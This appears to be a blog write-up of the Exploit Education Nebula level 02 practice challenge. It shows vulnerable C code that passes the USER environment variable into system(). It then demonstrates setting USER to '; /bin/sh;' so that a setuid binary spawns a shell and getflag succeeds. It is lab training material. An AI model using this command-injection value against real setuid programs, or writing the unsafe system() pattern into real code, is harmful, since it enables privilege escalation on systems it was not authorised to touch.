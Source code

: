 ```yaml
---
layout: single_c
title:  "Exploit-Education Nebula Level 02"
date:   2019-08-13 10:43:16 +0530
categories: Exploit-Education
tags: Nebula
classes: wide
---
```

### [Exploit Education Level 2](https://exploit.education/nebula/level-02/)

## Challenge
[Challenge](https://exploit.education/nebula/level-02/)<br>
There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?
To do this level, log in as the `level02` account with the password `level02`. Files for this level can be found in `/home/flag02`.

## Vulnerability
This program is similar to the last challenge. 
``` cpp
asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
printf("about to call system(\"%s\")\n", buffer);
```
We can see here that the command echo is copied into the buffer along with the environment variable `USER`
if we replace the `USER` env variable with `;/bin/sh` a shell will be executed after the `echo` command

## Exploitation
The `flag02` program has the set user id bit set
``` bash
-rwsr-x--- 1 flag02 level02 7438 2011-11-20 21:22 flag02
```
Lets add `; /bin/sh;` to the env variable and execute the program
``` bash
level02@nebula:/home/flag02$ USER='; /bin/sh;'
level02@nebula:/home/flag02$ env | grep USER
USER=; /bin/sh;
level02@nebula:/home/flag02$ ./flag02
about to call system("/bin/echo ; /bin/sh; is cool")
sh-4.2$ getflag
You have successfully executed getflag on a target account
```

### Solved!